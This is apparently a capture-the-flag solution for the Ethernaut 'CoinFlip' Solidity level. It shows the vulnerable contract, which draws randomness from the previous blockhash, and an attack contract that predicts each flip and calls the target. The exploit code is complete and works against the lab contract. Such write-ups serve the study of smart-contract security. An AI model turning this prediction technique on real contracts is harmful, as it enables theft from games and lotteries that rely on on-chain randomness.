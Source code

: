 This is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip. To complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.

  Things that might help

See the "?" page above in the top right corner menu, section "Beyond the console"
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {
    uint256 public consecutiveWins;
    uint256 lastHash;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor() {
        consecutiveWins = 0;
    }

    function flip(bool _guess) public returns (bool) {
        uint256 blockValue = uint256(blockhash(block.number - 1));

        if (lastHash == blockValue) {
            revert();
        }

        lastHash = blockValue;
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;

        if (side == _guess) {
            consecutiveWins++;
            return true;
        } else {
            consecutiveWins = 0;
            return false;
        }
    }

# Solution code: 
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./CoinFlip.sol";

contract Attack {
    CoinFlip public coinFlip_addressContract;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;


    constructor(address _victimContractAddress) {
        _victimContractAddress = 0x187Ff958dC3c8F9C0E97B7902760542EE2b889FE;
        coinFlip_addressContract = CoinFlip( _victimContractAddress);
    }
    
    function ChainSideflip() public {
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;

        coinFlip_addressContract.flip(side);
    }
}

